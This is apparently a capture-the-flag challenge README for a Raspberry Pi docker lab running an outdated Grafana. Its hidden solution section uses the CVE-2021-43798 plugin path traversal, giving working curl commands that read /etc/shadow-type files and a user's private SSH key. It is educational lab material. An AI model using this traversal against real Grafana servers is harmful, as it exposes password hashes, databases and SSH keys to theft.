 ## CTF-pi - Outdated software - Grafana 2 - Difficulty: ★★★☆☆

### Scenario 

Grafana verison has changed, how about this time, is it secure?

There's no login provided for this challenge, but do we even need it?

### Prerequisites

Your Raspberry Pi has remote connection set up via Raspberry Pi Connect or VNC.

Have cloned this `CTF-pi` repository and are inside the `ctfpi0_0` directory.

`docker compose` works.


### Objective

Run within this directory on Raspi: `docker compose up -d` (Using remote shell)

`hostname -I` to find out which IP the service is running on and visit it in your browser. Your main computer or even a phone can access this, as long as they are within the same network as Raspberry Pi.

Which port is Grafana running on by default? Find out.

Find the Grafana version.

Find an existing vulnerability and exploit it.

There's plenty of sensitive files in Linux, find which one contains the flag.

Once you have found the flag check if they match: `answers/flag.txt`.


### Steps to complete

<details>
<summary>Click me</summary>

Google reveals that default Grafana port is 3000, and `hostname -I` reveals the IP, in my case the address to the service is: `10.10.10.67:3000`.

Enter this into your URL bar of your browser and you land on Grafana login page. 

We don't know the username or password, how do we find the version? I found them from page source! "subTitle":"Grafana v8.3.0

Google for Grafana exploits for the verion it is currently running on.

https://vulncheck.com/blog/grafana-cve-2021-43798

Made script that does everything automatically: https://www.exploit-db.com/exploits/50581

I ran this:
```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../<path>/<filename>' --path-as-is --output text.txt

```
There's files like /etc/passwd; /etc/shadow ; grafana configuration files ; grafana.db ; /home/grafana/.ssh/id_rsa, let's try the last one.

We can read the file contents from the saved `text.txt` file: `cat text.txt`

```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../home/grafana/.ssh/id_rsa' --path-as-is --output text.txt

```

What we just did is arbitrary path traversal, the user can input however many ../ they want so they get to the root directory, there's plenty of sensitive files like databases or device users with their password hashes, also private ssh keys, if attacker can reach these, then there's a high chance they can take control of everything on the Rasperry Pi in this case.

</details>

### Cleaning up

`docker compose down`
